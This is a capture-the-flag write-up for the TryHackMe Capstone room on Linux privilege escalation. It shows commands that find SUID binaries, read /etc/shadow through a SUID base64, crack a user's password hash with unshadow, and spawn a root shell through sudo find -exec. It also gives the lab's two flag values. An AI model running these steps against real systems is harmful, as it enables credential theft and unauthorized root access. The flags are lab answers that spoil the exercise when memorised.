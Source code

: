 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/capstone/","tags":["CTF","write-up"]}
---
```



---
# Privilege Escalation
## Check for SUID files
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```
We found `base64`
![Pasted image 20240819181358.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181358.png)
## Use https://gtfobins.github.io/ to exploit it.
We can read any file, we read `/etc/shadow` to see the hash of other users.
```shell
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
![Pasted image 20240819181615.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181615.png)
## On our machine crack the hash missy
Create a file passwd, copy the missy line of passwd
![Pasted image 20240819181914.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181914.png)
Create the shadow, copy the missy line of shadow
![Pasted image 20240819182033.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182033.png)
Unshadow the file using `unshadow` to the unshadowed file
```shell
unshadow passwd shadow > unshadowed
```
Crack the unshadowed file
![Pasted image 20240819182246.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182246.png)
## Get the first flag
Login as missy
```shell
su missy
```
The flag is on `/home/missy/Documents`
![Pasted image 20240819182541.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182541.png)
> [!check]- flag1.txt
> THM-42828719920544
## Escalate to root

Check `sudo -l` for missy
![Pasted image 20240819183619.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183619.png)
Leverage `find`
```shell
sudo find / etc/passwd -exec /bin/bash \;
```
![Pasted image 20240819183906.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183906.png)
We are root now
## Get the second flag
![Pasted image 20240819184137.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819184137.png)
> [!check]- flag2.txt
> THM-168824782390238